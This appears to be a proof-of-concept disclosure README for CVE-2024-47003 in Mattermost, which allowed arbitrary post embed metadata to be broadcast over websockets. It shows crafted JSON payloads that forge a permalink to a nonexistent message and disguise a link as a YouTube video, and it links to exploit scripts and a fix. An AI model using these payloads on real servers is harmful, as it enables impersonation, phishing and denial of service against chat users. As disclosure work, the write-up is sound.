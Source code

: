 # CVE-2024-47003

## Impact

Able to send posts with arbitrary embeds (metadata)

Can be used for

- DoS (client side)
- impersonating people (permalinks to messages that don't exist)
- phishing (via e.g. youtube link pointing to somewhere else)
- probably a lot more...

### DoS

![dos demo](./assets/dos.mp4)

### Customizable Permalink

![fully customizable permalink](./assets/fully-customizable-permalink.png)

### Youtube Embeds

![customizable url for youtube embed](./assets/customizable-url-youtube-embed.png)

![customizable title for youtube embed](./assets/customizable-title-youtube-embed.png)

## Exploitation

This works because the `metadata` we specify when creating a post gets broadcasted via websockets.
The arbitrary metadata from that isn't actually saved to the database.

### DoS

See [Exploit](./scripts/dos.ts) used in [demo](./assets/dos.mp4)

### Customizable Permalink

See [Exploit](./scripts/index.ts) used for [screenshot](./assets/fully-customizable-permalink.mp4)

#### Post from WS Connection

```json
{
  "event": "posted",
  "data": {
    "channel_display_name": "@arthurd",
    "channel_name": "1wt8aoiskjg99dap81jx4zjejc__w1bycrx7apy3xn31j7dyszahfa",
    "channel_type": "D",
    "mentions": "[\"w1bycrx7apy3xn31j7dyszahfa\"]",
    "post": "{\"id\":\"ju9uuu3xnjy1pymrp8siyk3t1o\",\"create_at\":1717763281641,\"update_at\":1717763281641,\"edit_at\":0,\"delete_at\":0,\"is_pinned\":false,\"user_id\":\"1wt8aoiskjg99dap81jx4zjejc\",\"channel_id\":\"ucatpix4girt5rp3w4xunng14o\",\"root_id\":\"\",\"original_id\":\"\",\"message\":\"\",\"type\":\"\",\"props\":{\"previewed_post\":\"96nffx8oztncuyyxq7nj7p8seh\"},\"hashtags\":\"\",\"pending_post_id\":\"\",\"reply_count\":0,\"last_reply_at\":0,\"participants\":null,\"metadata\":{\"embeds\":[{\"type\":\"permalink\",\"data\":{\"channel_display_name\":\"can-be-anything-i-want\",\"channel_id\":\"\",\"channel_type\":\"O\",\"post\":{\"channel_id\":\"doesnt-matter\",\"hashtags\":\"\",\"id\":\"96nffx8oztncuyyxq7nj7p8seh\",\"last_reply_at\":0,\"message\":\"This can be whatever i want\",\"metadata\":{},\"original_id\":\"\",\"participants\":[],\"props\":{},\"reply_count\":0,\"root_id\":\"\",\"type\":\"\",\"user_id\":\"teur4prbifnh7dhq5rh3cp7q4c\"},\"post_id\":\"96nffx8oztncuyyxq7nj7p8seh\",\"team_name\":\"\"}}]}}",
    "sender_name": "@arthurd",
    "set_online": true,
    "should_ack": true,
    "team_id": ""
  },
  "broadcast": {
    "omit_users": null,
    "user_id": "w1bycrx7apy3xn31j7dyszahfa",
    "channel_id": "ucatpix4girt5rp3w4xunng14o",
    "team_id": "",
    "connection_id": "",
    "omit_connection_id": ""
  },
  "seq": 10
}
```

#### Get Request of that Post

```json
{
  "id": "ju9uuu3xnjy1pymrp8siyk3t1o",
  "create_at": 1717763281641,
  "update_at": 1717763281641,
  "edit_at": 0,
  "delete_at": 0,
  "is_pinned": false,
  "user_id": "1wt8aoiskjg99dap81jx4zjejc",
  "channel_id": "ucatpix4girt5rp3w4xunng14o",
  "root_id": "",
  "original_id": "",
  "message": "",
  "type": "",
  "props": {
    "previewed_post": "96nffx8oztncuyyxq7nj7p8seh"
  },
  "hashtags": "",
  "pending_post_id": "",
  "reply_count": 0,
  "last_reply_at": 0,
  "participants": null,
  "metadata": {}
}
```

### Youtube Embeds

See [Exploit](./scripts/youtube.ts) used for screenshots:

- [custom url](./assets/customizable-url-youtube-embed.png)
- [other stuff such as title](./assets/customizable-title-youtube-embed.png)

#### Post from WS connection (custom url)

```json
{
  "event": "posted",
  "data": {
    "channel_display_name": "@arthurd",
    "channel_name": "1wt8aoiskjg99dap81jx4zjejc__w1bycrx7apy3xn31j7dyszahfa",
    "channel_type": "D",
    "mentions": "[\"w1bycrx7apy3xn31j7dyszahfa\"]",
    "post": "{\"id\":\"rpaioun83fds5ppf78bstpp3pw\",\"create_at\":1717764679114,\"update_at\":1717764679114,\"edit_at\":0,\"delete_at\":0,\"is_pinned\":false,\"user_id\":\"1wt8aoiskjg99dap81jx4zjejc\",\"channel_id\":\"ucatpix4girt5rp3w4xunng14o\",\"root_id\":\"\",\"original_id\":\"\",\"message\":\"\",\"type\":\"\",\"props\":{},\"hashtags\":\"\",\"pending_post_id\":\"\",\"reply_count\":0,\"last_reply_at\":0,\"participants\":null,\"metadata\":{\"embeds\":[{\"type\":\"opengraph\",\"url\":\"https://github.com/c0rydoras?ignore=https://youtube.com/watch?v=dQw4w9WgXcQ\",\"data\":{\"audios\":null,\"description\":\"The official video for “Never Gonna Give You Up” by Rick Astley. The new album 'Are We There Yet?' is out now: Download here: https://RickAstley.lnk.to/AreWe...\",\"determiner\":\"\",\"images\":[{\"height\":720,\"secure_url\":\"\",\"type\":\"\",\"url\":\"https://i.ytimg.com/vi/dQw4w9WgXcQ/maxresdefault.jpg\",\"width\":1280}],\"locale\":\"\",\"locales_alternate\":null,\"site_name\":\"YouTube\",\"title\":\"Rick Astley - Never Gonna Give You Up (Official Music Video)\",\"type\":\"video.other\",\"url\":\"https://www.youtube.com/watch?v=dQw4w9WgXcQ\",\"videos\":null}}]}}",
    "sender_name": "@arthurd",
    "set_online": true,
    "should_ack": true,
    "team_id": ""
  },
  "broadcast": {
    "omit_users": null,
    "user_id": "",
    "channel_id": "ucatpix4girt5rp3w4xunng14o",
    "team_id": "",
    "connection_id": "",
    "omit_connection_id": ""
  },
  "seq": 4
}
```

#### Get Request of that Post

```json
{
  "id": "rpaioun83fds5ppf78bstpp3pw",
  "create_at": 1717764679114,
  "update_at": 1717764679114,
  "edit_at": 0,
  "delete_at": 0,
  "is_pinned": false,
  "user_id": "1wt8aoiskjg99dap81jx4zjejc",
  "channel_id": "ucatpix4girt5rp3w4xunng14o",
  "root_id": "",
  "original_id": "",
  "message": "",
  "type": "",
  "props": {},
  "hashtags": "",
  "pending_post_id": "",
  "reply_count": 0,
  "last_reply_at": 0,
  "participants": null,
  "metadata": {}
}
```

## Fixes

- https://github.com/mattermost/mattermost/pull/27763
